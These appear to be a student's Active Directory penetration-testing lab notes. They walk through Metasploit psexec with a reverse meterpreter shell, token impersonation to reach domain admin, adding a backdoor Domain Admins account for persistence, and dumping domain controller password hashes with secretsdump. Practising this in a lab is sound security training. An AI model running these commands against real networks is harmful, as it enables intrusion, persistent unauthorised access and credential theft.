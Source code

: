 - Note: There are other tools that can do token impersonation as well, if metasploit doesn't work, we can use those.
# Using metasploit's incognito module
---
- `use exploit/windows/smb/psexec`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set rhosts 10.0.1.9` => Punisher machine
- `set smbuser fcastle`
- `set smbpass Password1`
- `set smbdomain MARVEL.local`
- `run`
- ![[Pasted image 20250330035119.png]]
- `load incognito` module
- `list_tokens -u`
- ![[Pasted image 20250330035321.png]]
- `impersonate_token marvel\\fcastle`
- `shell`
- ![[Pasted image 20250330035426.png]]  
- `rev2self` => get back previous account
- ![[Pasted image 20250330035515.png]]

# Gaining access to MARVEL\kamran:
---
- Login as `MARVEL\kamran : Password1234` on `ThePunisher` machine to generate the `delegate` token.
- ![[Pasted image 20250330053922.png]]
- Became ==MARVEL\kamran== **domain admin**
- ![[Pasted image 20250330054015.png]]

- Let's add another domain user `hawkeye` for **persistent access**:
	- `net user /add hawkeye Password1@ /domain`
	- `net group "Domain Admins" hawkeye /ADD /DOMAIN`
	- ![[Pasted image 20250330054315.png]]
	- **==Now we can dump hashes directory from domain controller as we are domain admin==**:
		- `impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@10.0.1.4`